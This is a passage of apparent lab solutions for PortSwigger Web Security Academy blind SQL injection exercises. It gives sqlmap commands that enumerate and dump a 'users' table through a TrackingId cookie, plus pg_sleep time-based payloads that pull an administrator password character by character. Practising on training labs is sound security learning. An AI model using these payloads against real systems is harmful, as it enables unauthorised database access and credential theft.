 
### Quick Solution
This time the SQL Injections resides in the ``TrackingId`` cookie. For this reason a different ``sqlmap`` command must be used:
```
# Detect tables
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 --tables
# Dump the content of 'users' table (set DBMS to speed up the execution)
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 -T users --dbms=postgresql --dump
```

// maybe add "--time-sec=4" above too cuz "[ERROR] invalid character detected. retrying.." - FMisi

alt.:

TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(7)+ELSE+pg_sleep(0)+END+FROM+users--

TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(7)+ELSE+pg_sleep(0)+END+FROM+users--

...


### Solution
The solution is **extremely long** and it has not been copied, see the reference link.

## Blind SQL injection with conditional errors
Reference: https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors


### Quick Solution
In this case the Database is Oracle. It is impossible to use either ``ALL_TABLES`` and ``ALL_TAB_COLUMNS`` to retrieve Database content. For this reason there are two alternative:
- Infer the existence of a ``users`` table
- Blindly detect all the table in the ``SYSTEM`` Database

Here is the code for both of them: 
```
# Blindly detect all the tables in the SYSTEM database
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 --dump
# Dump the content of the users table
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 -T users --dump
```


### Solution
The solution is **extremely long** and it has not been copied, see the reference link.

## Blind SQL injection with time delays
Reference: https://acd71f421faa06c4c0601db1008a000e.web-security-academy.net/
